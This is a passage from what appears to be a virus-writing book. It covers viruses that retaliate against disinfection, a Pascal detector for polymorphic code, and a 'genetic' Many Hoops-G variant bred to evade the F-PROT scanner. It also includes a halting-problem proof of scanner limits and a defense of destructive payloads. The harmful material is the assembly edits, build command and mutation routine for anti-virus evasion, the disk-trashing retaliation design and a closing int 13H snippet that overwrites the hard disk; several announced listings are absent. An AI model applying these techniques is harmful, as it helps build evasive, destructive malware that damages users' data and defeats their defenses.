If the virus you're dealing with is a smart, retaliating virus, this is an ominous possibility. There is no reason that a virus could not hide a list of infected files somewhere on a disk, and check that list when it is executed. Are the files which were infected still infected? No? Something's messing with the virus! Take action!
Alternatively, the virus could leave a portion of code in memory which just sits there guarding a newly infected file. If anything attempts to modify or delete the file, this sentry goes into action, causing whatever damage it wants to. And the virus is still hiding in your backup. This is turning the idea of a behavior checker back on the anti-virus software.
Although these scenarios are not very pretty, and we'd rather not talk about them, any of them are rather easy to implement. The Retaliator II virus, for example, maintains a simple record of the last file infected in Cylinder 0, Head 0, Sector 2 on the C: drive. This sector, which resides right after the master boot sector, is normally not used, so the virus is fairly safe in taking it over. When the virus executes, it checks whatever file name is stored there to see if it is still infected. If so, it infects a new file, and stores the new file name there. If the file it checks is missing, it just infects a new file. However if the file which gets checked is no longer infected, it proceeds to execute its simulated "TRASHING HARD DISK!" routine. Such a file-checking routine could easily be modified to check multiple files. Of course, one would have to be careful not to implement a trace-back feature into the checking scheme, which would reveal the original source of the infection.
In conclusion, viruses which retaliate against anti-viral software are rather easy to create. They have the potential to lie dormant for long periods of time, or turn into devastating logic bombs. The only safe way to defend a system against this class of viruses is by using a scanner which can identify such viruses without ever executing them. For all its nasty habits, Retaliator II could be easily spotted by a very simple scanner. However, even if you make it polymorphic and very difficult to detect, you still need a scanner to be safe.
Viruses such as Retaliator II make it very dangerous to use simple integrity checkers or TSR's to catch viruses while giving them control of the CPU. Such a virus, if it gains control of the CPU even once, could be setting you up for big problems. The only way to defend against this class of viruses is to make sure they never execute. That simply requires a scanner.
Retaliator II is by no means the most sophisticated or creative example of such a virus. It is only a simple, demonstrable example of what can be done.
The following code, RETAL.ASM, can be assembled by MASM, TASM or A86 into an EXE file. You'll have to fudge a couple segment references to use A86, though.
The following Turbo Pascal program is just a little utility to read and (if you like) erase Cylinder 0, Head 0, Sector 2 on the C: drive, where Retaliator II stores its integrity information about the file it just infected. It's a handy tool to have if you want to play around with this virus.
One technique that we haven't discussed which could be considered a form of retaliation is to make a virus very difficult to get rid of. The next three exercises will explore some techniques for doing that.
We've discussed some of the cat-and-mouse games that viruses and anti-virus software play with each other. We've seen how protected mode presents some truly difficult challenges for both viruses and anti-virus software. We've discussed how it can be just plain dangerous to disinfect an infected computer. All of these considerations apply to detecting and getting rid of viruses that are already in a computer doing their work.
One subject we haven't discussed yet is just how scanners can detect polymorphic viruses. At first glance, it might appear to be an impossible task. Yet, it's too important to just give up. A scanner is the only way to catch a virus before you execute it. As we've seen, executing a virus just once could open the door to severe data damage. Thus, detecting it before it ever gets executed is important.
The key to detecting a polymorphic virus is to stop thinking in terms of fixed scan strings and start thinking of other ways to characterize machine code. Typically, these other ways involve an algorithm to analyze code rather than merely search it for a pattern. As such, I call this method code analysis. Code analysis can be broken down into two further categories, spectral analysis, and heuristic analysis.
Any automatically generated code is liable to contain tell-tale patterns which can be detected by an algorithm which understands those patterns. One simple way to analyze code in this manner is to search for odd instructions generated by a polymorphic virus which are not used by ordinary programs. For example both the Dark Avenger's Mutation Engine and the Trident Polymorphic Engine often generate memory accesses which wrap around the segment boundaries (e.g. xor [si+7699H],ax, where si=9E80H). That's not nice programming practice, and most regular programs don't do it.
Technically, we might speak of the spectrum of machine instructions found in a program. Think of an abstract spaceinwhich each possible instruction, and each possible state of the CPU is represented by a point, or an element of a set. There are a finite number of such points, so we can number them 1, 2, 3, etc. Then, a computer program might be represented as a series of points, or numbers. Spectral analysis is the study of the frequency of occurence and inter-relationship of such numbers. For example, the number associated with xor [si+7699H],ax, when si=9E80H, would be a number that cannot be generated, for example, by any known program compiler.
Any program which generates machine language code, be it a dBase or a C compiler, an assembler, a linker, or a polymorphic virus, will generate a subset of the points in our space.
Typically, different code-generating programs will generate different subsets of the total set. For example, a c compiler may never use the cmc (complement carry flag) instruction at all. Even assemblers, which are very flexible, will often generate only a subset of all possible machine language instructions. For example, they will often convert near jumps to short jumps whenever possible, and they will often choose specific ways to code assembler instructions where there is a choice. For example, the assembler instruction
mov ax,[7900H]
could be encoded as either A1 00 79 or 8B 06 00 79. A codeoptimizing assembler ought to always choose the former. If you look at all the different subsets of machine code generated by all the programs that generate machine code, you get a picture of different overlapping regions.
Now, one can write a program that dissects other programs to determine which of the many sets, if any, it belongs in. Such a program analyzes the spectrum of machine code present in a program. When that can be done in an unambiguous manner, it is possible to determine the source of the program in question. One might find it was assembled by such-and-such an assembler, or a given c compiler, or that it was generated by a polymorphic virus. Note that, at least in theory, there may be irreconcilable ambiguities. One could conceivably create a polymorphic engine that exactly mimics the set of instructions used by some popular legitimate program. In such cases, spectral analysis may not be sufficient to solve the problem.
To illustrate this method, let's develop a Visible Mutation Engine detector which we'll simply call FINDVME. FINDVME will be a falsifying code analyzer which checks COM files for a simple VME virus like Many Hoops. A "falsifying code analyzer" means that, to start out with FINDVME assumes that the program in question is infected. It then sifts through the instructions in that program until either it has analyzed a certain number of instructions (say 100), or until it finds an instruction which the VME absolutely cannot generate. Once it finds an instruction that the VME cannot generate, it is dead certain that the file is not infected with a straight VME virus. If it analyzes all 100 instructions and doesn't find non-VME instructions, it will report the file as possibly infected.
This approach has an advantage over looking for peculiar instructions that the VME may generate because a particular instance of a VME-based virus may not contain any particular instructions.
The weakness of a falsifying code analyzer is that it can be fooled by front-ending the virus with some unexpected code. It is rather easy to fool most of these kinds of anti-virus programs by starting execution with an unconditional jump or two, or a call or two, which pass control to the decryption routine. These instructions can be generated by the main body of the virus, rather than the polymorphic engine, and they do a good job of hiding the polymorphic engine's code, because the code analyzer sees these instructions and can't categorize them as derived from the engine, and it therefore decides that the engine couldn't be present, when in fact it is.
At a minimum, one should not allow an unconditional jump to disqualify a program as a VME-based virus, even though the VME never generates such a jump instruction. One has to be aware that viruses which add themselves to the end of a program often place an unconditional jump at the start to gain control when the program is loaded. (Note that this is left as an exercise for the reader.)
To develop something like FINDVME when all you have is a live virus or an object module, you must generate a bunch of mutated examples of the virus and disassemble them to learn what instructions they use, and what you must keep track of in order to properly analyze the code. Then you code what amounts to a giant case statement which disassembles or simulates the code in a program.
For example, FINDVME creates a set of simulated registers in memory, and then loads a COM file into a buffer and starts looking at the instructions. It updates the simulated registers according to the instructions it finds in the code, and it keeps an instruction pointer (ip) which always points to the next instruction to be simulated. Suppose, for example, that ip points to a BB Hex in memory. This corresponds to the instruction mov bx,IMM, where IMM is a word, the value of which immediately follows the BB. Then our giant case statement will look like this:
case code[ip] of
.
.
$BB : begin
bx:=code[ip+1]+256*code[ip+2];
ip:=ip+3;
end
.
.
.
end;
In other words, we set the simulated bx register to the desired value and increment the instruction pointer by three bytes. Proceeding in this fashion, one can simulate any desired subset of instructions by expanding on this case statement.
Note that FINDVME does not simulate the memory changes which a VME decryption routine makes. The reason is simply that it does not need to. One wants to do the minimum necessary amount of simulation because anything extra just adds overhead and slows the decision-making process down. The registers need to be simulated only to the extent that they are used to make actual decisions in the VME. For example, when the VME decryptor contains a loop instruction, one must keep track of the cx register so one knows when the loop ends.
In writing FINDVME, I attacked the Many Hoops blind, as if it were a mysterious virus which I couldn't easily disassemble and learn what it does from the inside out. To attack the VME in this manner, one typically creates 100 samples of a VME virus and codes all the instructions represented there. You start with one sample, code all the instructions in it, and make the program display any instructions it doesn't understand. Then you run it against the 100 samples. Take everything it reports, and code them in, until all 100 samples are properly identified. Next, create 100 more and code all the instructions which the first round didn't catch. Repeat this process until you get consistent 100% results Then run it against as big a variety of uninfected files as you can lay your hands on to make sure you don't get an unacceptable level of false alerts.
As you might see, one of the weaknesses of the VME which FINDVME preys upon is its limited ability to transfer control. The only control-transfer instructions which the VME generates are jnz and loop. It never generates any other conditional or unconditional jumps, and it never does a call or an int. Most normal programs are full of such instructions, and are quickly disqualified from being VME-based viruses.
It is conceivable that the relatively simple techniques of looking for the presence or absence of code may fail. Then other, more sophisticated spectral analysis is necessary. For example, one can look at the relationship between instructions to see if they represent "normal" code or something unusual. For example, the instructions
push bp
mov bp,sp
.
.
.
pop bp
ret
are fairly commonly found in c programs, since the c compiler uses the bp register to locate temporary variables, and variables passed to subroutines. If one finds such instructions in conjunction with one another, one might conclude that one has found a compiler-generated subroutine. On the other hand, something like
push bp
pop bp
seems to have little purpose in a program. It might represent poor coding by a compiler, a mistake by an assembly language programmer, or something generated by a polymorphic virus.
Another technique which can be used in spectral analysis is simply to look at a block of code and see if the frequency of instructions represented corresponds to normal machine code. The crudest form of this analysis simply looks at the bytes present, and decides whether they are real code. Code that is encrypted will have a different spectrum from unencrypted code.
The FREQ program listed at the end of this chapter will analyze a given file and determine how close it comes to "standard" code. Figure 26.1 compares the spectrum of an ordinary program to that of one which has been encrypted. The difference is quite plain. (Note that, to do this well, one should really analyze the spectrum of instructions, not just bytes.)
Figure 26.1: Spectrum of ordinary and encrypted code.
Taking this idea one step further, if one realizes that a decryptor is present (perhaps using heuristics), one can allow the decryptor to decrypt the code, and then re-examine it to see if it really is machine code, or whether the decryptor is part of a program decrypting some data which it doesn't want to be seen by snoops.
Heuristic analysis basically involves looking for code that does things that viruses do. This differs from a behavior checker, which watches for programs doing things that viruses do. Heuristic analysis is passive. It merely looks at code as data and never allows it to execute. A heuristic analyzer just looks for code that would do something nasty or suspicious if it were allowed to execute.
We can add some heuristic analysis to the FINDVME program easily enough. One thing that heuristic programs generally check for is whether a program decrypts itself. Let's try adding the capability to detect self-decryption to FINDVME.
Self-decryption normally takes the form of sequentially walking through a chunk of code, modifying it, and then executing it. To detect self-decryption, we can set up an array of flags to determine which bytes, if any, in a program are read and written by the program. If the program sequentially modifies a series of bytes by reading them and then writing them back, then we can raise the flag that the code is self-modifying.
The array modified in FINDVME is designed for the purpose of tracking code modifications. Typical instructions used to modify code are things like mov al,[si] [88 04] and mov [si],al [8A 04]. If we weren't interested in self-modifying code, we might code these instructions like this in the spectral analyzer:
$8A : case buf[ip+1] of
$04 : ip:=ip+2; {mov [si],al}
$05 : ip:=ip+2; {mov [di],al}
$07 : ip:=ip+2; {mov [bx],al}
Adding self-modification heuristics, we might code it as
$8A : case buf^[ip+1] of
$04 : begin {mov [si],al}
ip:=ip+2;
modified^[r.si]:=modified^[r.si]+$10;
end;
$05 : begin {mov [di],al}
ip:=ip+2;
modified^[r.di]:=modified^[r.di]+$10;
end;
$07 : begin {mov [bx],al}
ip:=ip+2;
modified^[r.bx]:=modified^[r.bx]+$10;
end;
instead.
Now, if you had a full-blown spectrum analyzer, it would be able to decode all possible instructions. FINDVME doesn't do that. Supposing you had such an analyzer, though. If an instruction were encountered that, say, was characteristic of the Trident Polymorphic Engine, but not the Visible Mutation Engine, then the NOT_VME flag would get set, but the NOT_TPE flag would not be touched. The heuristic analysis could continue at the same time the spectrum analyzer was working. Even if all the spectral flags were set, to indicate no known virus, the parameters generated by the heuristic analysis could still warrant comment.
For example, if the above instructions added 10H to modified, and the complementary mov al,[si], etc., added 1 to modified, then one could examine the modified array for- say - more than 10 contiguous locations where modfied [x]=11H. If there were such bytes, one could raise a flag saying that the program contains self-decrypting code, possibly belonging to a virus.
The following program is the FINDVME source in Turbo Pascal. Compile it in the usual manner.
The following is the FREQ source in Turbo Pascal. Compile it in the usual manner.
As I mentioned again and again two chapters back when discussing polymorphic viruses, I did not want the polymorphic virus we discussed to be too hard on the scanners. Now I'll tell you more about why: If we make a slight change to a polymorphic virus like Many Hoops, it becomes much more powerful and much more capable of evading scanners.
The Many Hoops virus used a random number generator to create many different instances of itself. Every example looked quite different from every other. The problem with it, of course, is that it has no memory of what encryptions and decryption schemes will evade a scanner. Thus, suppose a scanner can detect 90% of all the examples of this virus. If a particular instance of the virus is in the lucky 10% it will evade the scanner, but that gives all of its progeny no better chance at evading the scanner. Every copy that our lucky example makes of itself still has a 90% chance of being caught.
This is just as sure-fire a way to be eradicated as to use no polymorphic features at all. A scanner will just have to wait a few generations to wipe out the virus instead of getting it all at once. For example if you start out with a world population of 10,000 copies of a virus that is detected 90%, then after scanning, you only have 1,000 left. These 1,000 reproduce once, and of the second generation, you scan 90%, and you have 100 left. So the original population doesn't ever get very far.
Obviously, a polymorphic virus which could remember which encryptions worked and which didn't would do better in a situation like this. Even if it just kept the same encryptor and decryptor, it would do better than selecting one at random.
A polymorphic virus could accomplish this task by recording the decryption scheme it used. In the case of Many Hoops, the decryption scheme is determined by the seed given to the random number generator. If the virus just kept using the same seed, it would produce the same encryption and decryption routine every time.
There is a serious problem with simply saving the seed for the random number generator, though: Using a single encryptor/decryptor is a step backwards. The virus is no longer polymorphic and it can be scanned for with a fixed string. What we want is not a fixed virus, but one which is somewhat fixed. It remembers what worked in the past, but is willing to try new but similar things in the next generation.
The idea of generating a child similar to a parent raises another problem. Using a random number generator to select decryptors makes developing something "similar" almost impossible. The very nature of a random number generator is to produce a widely different sequence of numbers even from seeds that differ only by one. That fact makes it impossible to generate a child similar to a parent in any systematic way that might look similar to the kinds of anti-virus software we've discussed in previous chapters.
To carry out such a program, something more sophisticated than a random number generator is needed. Something more like a gene is necessary. A gene in this sense is just a sequence of fixed bytes which is used by the polymorphic engine to make decisions in place of a random number generator. For example, using a randomnumber generator, one might codea yes-or-nodecisionlike this:
call GET_RANDOM
and al,1
jz BRNCH1
Using a gene, one could code it like this:
mov bx,[GENE_PTR]
mov al,[GENE+bx]
and al,1
jz BRNCH1
where GENE is an array of bytes, and GENE_PTR is a pointer to the location in this array where the data to make this particular decision is stored.
Using such a scheme, it is possible to modify a single decision branch during the execution of the decryptor generator without modifying any other decision. This can result in a big change or a small one, depending on which branch is modified.
The VME was designed so that the random number generator could be replaced with a genetic system like this simply by replacing the module LCG32.ASM with the GENE.ASM module. Calling GET_RANDOM then no longer really gets a random number. Instead, it gets a piece of the gene, the size of which is requested in the al register when GET_RANDOM is called. For example,
mov al,5
call GET_RANDOM
gets 5 bits from GENE and reports them in ax. It also updates the GENE_PTR by 5 bits so the next call to GET_RANDOM gets the next part of the gene.
As long as the gene remains constant, the virus will not change. The children will be identical to the parents. To make variations, the gene should be modified from time to time. This is accomplished using the random number generator to occasionally pick a bit to modify in the routine MUTATE. Then, that bit is flipped. The code to do this is given by:
in al,40H ;get a random byte
cmp [MUT_RATE],al ;should we mutate?
jc MUTR ;nope, just exit
push ds
xor ax,ax
mov ds,ax
mov si,46CH ;get time
lodsd
pop ds
mov [RAND_SEED],eax ;seed rand # generator
call GET_RAND
mov cx,8*GSIZE
xor dx,dx
div cx
mov ax,dx
mov cx,8
xor dx,dx
div cx ;ax=byte to toggle, dx=bit
mov cl,dl
dec cl ;cl=bits to rotate
mov si,ax
add si,OFFSET GENE ;byte to toggle
mov al,1
shl al,cl
xor [si],al ;toggle it
MUTR:
Essentially, what we are doing here is the equivalent of a point mutation in the DNA of a living organism. By calling MUTATE, we've just introduced random mutations of the gene into the system.
This scheme opens up a tremendous number of possibilities for a polymorphic virus. Whereas a random number generator like LCG32 allows some 232=4 billion possible decryptors - one for each possible seed - a 100-byte gene can potentially open up 2800=10241 possibilities (provided the polymorphic engine can exercise them all). To give you an idea of how big this number is, there are roughly 1080 atoms in the universe. So going over to a genetic approach can open up more possibilities for a polymorphic virus than could ever be exercised.
Using a gene-like construct also opens the door to Darwinian evolution. The virus left to itself cannot determine which of these 10241 possible configurations will best defeat an anti-virus. However, when an anti-virus is out there weeding out those samples which it can identify, the population as a whole will learn to evade the anti-virus through simple Darwinian evolution.
This book is not the place to go into a lot of detail about how evoltuion works or what it is capable of. All I intend to do here is demonstrate a simple example. The interested reader who wants more details should read my other book, Computer Viruses, Artificial Life and Evolution. For now, suffice it to say that any self-reproducing system which employs descent-with-modification will be subject to evolution. Any outside force, like an anti-virus product, will merely provide pressure on the existing population to adapt and find a way to cope with it. This adaption is automatic; one does not have to pre-program it except to make room for the adaption by programming lots of options which are controlled by the gene.
Now, I don't know what you think of real-world evolution, the idea that all of life evolved from some single-celled organism or some strand of DNA or RNA. As a scientist, I think these claims are pretty fantastic. However, we can watch some real real-world evolution at work when we pit our new, souped-up Many Hoops virus, which I'll call Many Hoops-G, against an anti-virus program.
For the purposes of this example, I'll use F-PROT 2.18a. if you want to repeat these results, you'll want to get the same version of F-PROT. I would hope the author of that program would wake up and fix it after this book comes out, although he hasn't done his job very well for over two years, carelessly failing to detect a published virus. If you can't get F-PROT 2.18a, you might use FINDVME instead. It does have a hole in it so you can demonstrate Darwinian evolution with it. (And I hope you did the exercise at the end of the last chapter to learn what the hole is and why it's much better to disassemble a polymorphic engine and figure out how it works than to simply test against lots of samples.)
Anyway, FPROT 2.18a detects Many Hoops-G in any one of several ways. It sometimes mis-identifies it as the Tremor virus. Such mis-identifications represent about 0.34% of the total population. Next, in heuristic mode, it identifies some 58.9% as containing unusual code of some sort, normally only found in a virus. This represents a sizeable fraction of the total.
To test the effectiveness of evolution, I made a sample of 1000 first-generation viruses, and weeded them out with F- PROT. Then I used the remaining viruses to create a new sample of 2000 second-generation viruses. These were again weeded out, and used to make 2000 third-generation viruses, etc.
As it turns out, evolution does quite a job on F-PROT. While the first generation, whose genes are selected at random, gets caught about 59% of the time, the second and subsequent generations, after weeding out the samples with F-PROT, gets caught only about 0.1% of the time. Quite a difference!
Now, if you want to do something fancier, you can run two anti-virus products against a set of samples. For example, you could run F-PROT for a few generations to get an F-PROT evading virus, and then start running FINDVME against it too. Before long, you'll have an F-PROT and FINDVME evading virus.
Not only that, you could key in on F-PROT's misidentification of some samples. If you kept only the ones identified as Tremor by F-PROT, you could easily evolve a virus that causes F-PROT to false alert a Tremor infection where there is none. I tried this and it takes about 2 generations to go from a 0.34% false alert rate to a 99% false alert rate!
Clearly, evolution can play havoc with scanners!
There is only one way to fight an evolutionary virus using a scanner, and that is to develop a test for it that is 100% sure. If a scanner fails to detect the virus even in only a small fraction of cases, evolution will insure that this small fraction will become the bulk of the population. Only when the door is completely closed can evolution be shut down. Obviously, integrity checkers can be a big help here, but only if you're willing to allow the virus to execute at least once. As we've seen already, that may not be something you want to do. If you can't get a real good scanner that will deliver 100% accuracy, it may be something you have to do though - not rarely, but always, because evolution will push that rarely into an always fairly quickly.
So far we've been discussing a fairly simple polymorphic engine. Even so, it can easily leave most scanners behind in the dark after only a few generations of evolution. And that's two years after its publication. Thunderbyte does detect it 100%, and that's good. However, I can assure you that there is a very simple 10-byte change that you can make which renders even Thunderbyte totally useless against it.
Given that, I wonder, how long will it be before someone writes a really good polymorphic engine that will simply obsolete current scanning technology? I don't think it would be hard to do. It just needs enough variability so that determining whether it is encrypting and decrypting code becomes arbitrarily difficult. It need only mimic a code spectrum - and that's a great task to give to an evolutionary system. They're real good at figuring that kind of problem out. There's a real serious risk here that - mark my words - will become a reality within the next five years or so, whether I tell you about it or not. In the next chapter, we'll look even beyond the next five years.
To turn Many Hoops into Many Hoops-G, two things are necessary. First, you must make the following small change to MANYHOOP.ASM itself: remove the code
INFECT_FILE:
push bx ;save file handle
call RANDOM_SEED ;initialize rand # gen
and replace it with
INFECT_FILE:
push bx ;save file handle
cmp ds:[bp][FIRST],0 ;first generation?
jnz INF1 ;nope, evolve gene
mov ds:[bp][FIRST],1 ;else set flag
call INIT_GENE ;and init gene
INF1: call INIT_GENETIC ;initialize rand # gen
Also, add the following line somewhere (I put it right after the label COMFILE):
FIRST DB 0 ;first generation flag
Next, you must replace the LCG32.ASM module with GENE.ASM. The new batch file to assemble Many Hoops-G will be given by this:
tasm manyhoop; tasm vme; tasm gene; tasm host; tlink /t manyhoop vme gene host, manyhoop.com
And the source for GENE.ASM is given by:
The following two exercises will help you create two tools you'll want to have to play around with evolutionary viruses. In addition to these, all you'll need is a scanner that can output its results to a file, and a text editor. (Take the scanner output and edit it into a batch file to delete all of the files it detects.)
You've had a hard day at work. Your boss chewed you out for a problem that wasn't your fault. You'd have quit on the spot, but you need the money. You come home from the office. Your girl friend is out of town, so you turn on your computer to try out the latest version of your favorite game, which just arrived in the mail. You fire it up and play for a while. Then something strange happens. Something you never expected. A small golden bell appears in your visual field, and a beautiful, richly but wildly dressed woman. The speakers whisper:
"Make your choice, adventurous Stranger,
Strike the bell and bide the danger,
Or wonder, till it drives you mad,
What would have followed if you had."
Is this part of the program? or is it something from another world? Something that has been honed for a million generations to entertain you in a way no human-designed program would ever dare? You've heard of such things. Some people call them a great evil, akin to psychedelic drugs. Others think they're wonderful. They're illegal to knowingly spread around. They're called computer viruses.
Would you strike the bell?..
There is a serious deficiency in existing virus defenses which could lead to scenarios like this.
One can mathematically prove that it is impossible to design a perfect scanner, which can always determine whether a program has a virus in it or not. In layman's terms, an ideal scanner is a mathematical impossibility. Remember, a scanner is a program which passively examines another program to determine whether or not it contains a virus.
This problem is similar to the halting problem for a Turing machine,1 and the proof goes along the same lines. To demonstrate such an assertion, let's first define a virus and an operating environment in general terms:
An operating environment consists of an operating system on a computer and any relevant application programs which are resident on a computer system and are normally executed under that operating system.
A virus is any program which, when run, modifies the operating environment (excluding itself).
We say that a program P spreads a virus on input x if running P in the operating environment with input x (designated P(x)) alters the operating environment. A program is safe for input x if it does not spread a virus for input x. A program is safe if it does not spread a virus for all inputs.
Obviously these are very general definitions - more general than we are used to when defining viruses - but they are all that is necessary to prove our point.
Given these definitions, and the assumption that a virus is possible (which would not be the case, for example, if everything were write protected), we can state the following theorem:
Theorem: There is no program SCAN(P,x) which will correctly determine whether any given program P is safe for input x. 2
Proof: Let us first invent a numbering system for programs and inputs. Since programs essentially consist of binary information, they can be sequentially ordered: 1, 2, 3, 4 ... etc. For example, since a program on a PC is just a file of bytes, all those bytes strung together could be considered to be a large positive integer. Most useful programs will be represented by ridiculously large numbers, but that is no matter. Likewise, inputs, which may consist of data files, keystroke, I/O from the COM port, etc., being nothing but binary data, can be sequentially ordered in the same fashion. Within this framework, let us assume SCAN(P,x) exists. SCAN(P,x) is simply a function of two positive integers:
SCAN(P,x) = { 0 if P(x) is safe
{ 1 if P(x) spreads a virus
We can write SCAN in tabular for like this:
P |X 0 1 2 3 4 5 6
---|---------------
0 | 0 0 0 0 0 0 0
1 | 0 0 1 0 1 0 0
2 | 0 1 1 0 0 0 0
3 | 1 1 1 1 1 1 1
4 | 0 0 0 0 0 0 0
5 | 1 0 0 1 0 0 0
6 | 0 0 1 0 0 0 0
This table shows the output of our hypothetical SCAN for every conceivable program and every conceivable input. The problem is that we can construct a program V with input x as follows:
V(x) ={ Terminate if SCAN(x,x) = 1
Spread a virus if SCAN(x,x) = 0
(remember, the parameters in SCAN are just positive integers). This construction is known as the Cantor diagonal slash. We have defined a program which, for input x, has
SCAN(V,x) = SCAN(x,x)
Thus its values in the table for SCAN should always be exactly opposite to the diagonal values in the table for SCAN,
0 1 2 3 4 5 6
.
.
V 1 1 0 0 1 1 1
.
.
The problem here is that - since V is just another program, represented by a number - we must have
SCAN(V,V) = SCAN(V,V)
an obvious contradiction. Since the construction of V(x) is straight-forward, the only possible conclusion is that our function SCAN does not exist. This proves the theorem.
An ideal scanner is a mathematical impossibility. Any real scanner must either fail to catch some viruses or flag some programs as unsafe even though they are, in fact, safe. Such are the inherent limitations of scanners.
However, all is not lost. Although the program V above beats the scanner SCAN, one can construct a new scanner SCAN2, which can improve on SCAN and incorporate V into its scheme. The trouble is, our theorem just says that there will be some other program V2 that will fool SCAN2. So, although there may be no virus which can fool all conceivable scanners, the scanner / virus game is doomed to be endless.
What we learn from the halting problem is that a scanner has inherent limits. It can never detect all possible viruses.
At the same time, we've seen that integrity checkers cannot detect a virus without allowing it to execute once - and having executed once, the virus has a chance to retaliate against anything that can't remove it completely, and it has a chance to convince the user to let it stay.
The problem, you see, is that evolution as we understand it is somewhat open-ended. An anti-virus has its limits, thanks to Turing, and a virus can find those limits and exploit them, thanks to Darwin.
Now, I am not really sure about how much power evolution has to "grow" computer viruses. I've discussed the matter at length in my other book, Computer Viruses, Artifical Life and Evolution. However, if you take the current theory of evolution, as it applies to carbon-based life, at face value, then evolution has a tremendous - almost limitless - amount of power.
Could there come a time when computer viruses become very adept at convincing computer users to let them stay after executing them just once, while being essentially impossible to locate before they execute? I believe it is possible.3
To explore the future of viruses a little, let's first take a very broad look at where computing is headed. I'm not really a futurologist, so I don't want to speculate too much. Let's just confine ourselves to some rather obvious directions:
Each of these trends has important implications for computer viruses. Let's consider them:
Perhaps more than anything, the thing driving the computer revolution has been the human desire to surpass one's fellows. If I can gain an advantage over you with a computer, I'll do it. That's why companies spend thousands on the best and fastest computers. They know that those things'll give them the advantage over their competitors, if only temporarily.
Now let me ask, if you could have a brain implant that would make you a math whiz - say you were hard-wired with Mathematica - would you do it? Would you do it if you knew you'd barely get through college without it, with B's and C's for grades, whereas with it you could get your Ph.D. from the one of the best schools, with straight A's, in the same amount of time? Well, put it this way: if you wouldn't do it, there's somebody out there who will. And in time he'll turn your B's and C's into F's.
There's one problem here: what if your Mathematica program dropped a bit during the final exam? With today's software design, you'd be washed up. What you'd need to make this work is a robust instruction set and operating system, so that if a bit were changed here or there, it wouldn't cause too much trouble.
However, this is the very kind of instruction set and operating system that's needed to really get evolution underway. Artificial Life researcher Thomas Ray has experimented with such things extensively, and you can too, with his Tierra program. 4
So it would seem that the very direction computing must go is the direction needed to make evolutionary viruses a much greater threat.
We know that living organisms are incredibly self-serving. They will use their environment to further themselves at its expense. So we can expect viruses that have evolved will not be particulary beneficial to mankind. Like a cockroach, they'll be happy to come eat your food, but they'll run when the lights go on. Unlike a cockroach, they'll be dependent on you to do something with them. So they'll work very hard to entertain you, threaten you, or whatever, so that you'll execute them and spread them. And the "entertainment" they might provide will be geared purely to getting you to do what the virus wants. If clean entertainment works, it'll be clean. If something lewd or seductive works, that's what you'll get. Evolution has no scruples. So viruses could become the electronic equivalent of highly adictive drugs.
Who will win? Evolution is the key to answering that question. How powerful is it?
It is the accepted scientific belief today that the chances of a single self-reproducing organism being assembled from basic components and surviving on the early earth was very remote. Therefore all of life must have evolved from this one single organism. That's a breathtaking idea if you think about it. We've all grown up with it, so it tends to be - well - ordinary to us. Yet it was utter madness just two centuries ago.
Yet, what if... what if... what if the same were possible for computer viruses?..
Given our current understanding of evolution, the question isn't "what if" at all. It's merely a question of when. When will a self-reproducing program in the right location in gene-space find itself in the right environment and begin the whole amazing chain of electronic life? It's merely a question of when the electronic equivalent of the Cambrian explosion will take place.
The history of the earth is punctuated by periods where there was a great flowering of new life-forms. Whether we're talking about the Cambrian period or the age of dinosaurs, natural history can almost be viewed as if a new paradigm suddenly showed up on the scene and changed the world in a very short period of time. Right now there is no reason to believe - at the highest levels of human understanding - that a similar flowering will not take place in the electronic world. If it does, and we're not ready for it, expecting it, and controlling its shape, there's no telling what the end of it could be. If you look at the science fiction of the 50's, it was the super-smart computer that would be the first "artificial life" but the first artificial life that most people ran into was a stupid virus. We often imagine that computers will conquer man by becoming much more intelligent than him. It could be that we'll be conquered by something that's incredibly stupid, but adept at manipulating our senses, feelings and desires.
The only other alternative is to question those highest levels of human understanding. Certainly there is room to question them.
I'm a physical scientist, and to me, a theory is something that helps you make predictions about what will happen given a certain set of initial conditions. Darwin's ideas and what's developed around them in the past 125 years unfortunately don't give me the tools to do that. Those ideas may be great for explaining sequences of fossils, or variations between different species, but just try to use this theory to explain what's going to happen when viruses start evolving, and you quickly learn that it isn't going to do you much good. There's just not any way to take a set of initial conditions and determine mathematically what will happen.
That's not too surprising, really.Most of whatwe call evolution focuses on explaining past events - fossils, existing species, etc. The theory didn't develop in a laboratory setting, making predictions and testing them with experiment. So it's good at explaining past events, and lousy at predicting the future. That's changing only very slowly. The deeper understanding of biology at the molecular level which has come about in the last forty years is applying a certain amount of pressure for change. At the same time, the idea that the past must be explained by evolution is a sacred cow that's hindering the transition. That's because evolution has to be practically omnipotent to explain the past, and so its hard to publish any paper that draws this into question.
Viruses are different from the real world, because we're interested in what evolution cannot do, and not just what it can do, or what it has to have done. In the world of viruses, we freely admit the possibility of special creation. Furthermore, we should expect that some instruction sets, or some operating systems may promote evolutionary behavior, but others will be hostile to it.
In order to come to grips with computer viruses and artificial life in general, a radically new and different theory of evolution is going to be necessary - a theory that a hard-core physical scientist would find satisfying - one with some real predictive power. This theory may be dangerous to traditional evolutionary biologists. It could tell them things about the real world they won't want to hear. However, to close your eyes and plug your ears could be disastrous to the computing community and to human civilization as a whole.
Of course, we could just sit back and wait for the electronic equivalent of the Cambrian explosion to take place...
You strike the bell...
Your integrity checker later warns you that something is amiss, but it's too late now. This thing is - well - enjoyable. You wouldn't get rid of it now. And before long you find yourself giving it to a few select people on the sly.
No book on viruses would be complete without some discussion of destructive code. Just because a book discusses this subject does not, of course, mean that it advocates writing such code for entertainment. Destructive viruses are almost universally malicious and nothing more.
That does not, however, mean that destructive code is universally unjustifiable. In military situations, the whole purpose of a virus might be to function as a delivery mechanism for a piece of destructive code. That destructive code might, for example, prevent a nuclear missile from being launched and save thousands of lives. Again, some repressive tyrannical governments are in the habit of seizing people's computer equipment without trial, or even stealing software they've developed and killing them to keep them quiet. In such a climate it would be entirely justifiable to load one's own machine up with destructive viruses to pay back wicked government agents for their evil in the event it was ever directed toward you. In fact, we'll discuss an example of such a scheme in detail at the end of this chapter.
In other words, there may be times when destructive code has a place in a virus.
Our discussion of destructive code will focus on assembly language routines, though often destructive programs are not written in assembler. They can be written in a high level language, in a batch file, or even using the ANSI graphics extensions which are often used in conjunction with communications packages. While these techniques work perfectly well, they are in principle just the same as using assembler - and assembler is more versatile. The reader who is interested in such matters would do well to consult some of the material available on The Collection CD-ROM. 1
On the face of it, writing destructive code is the simplest programming task in the world. When someone who doesn't know the first thing about programming tries to program, the first thing they learn is that it's easier to write a destructive program which louses something up than it is to write a properly working program. For example, if you know that Interrupt 13H is a call to the disk BIOS and it will write to the hard disk if you call it with ah=3 and dl=80H, you can write a simple destructive program,
mov dl,80H
mov ah,3
int 13H
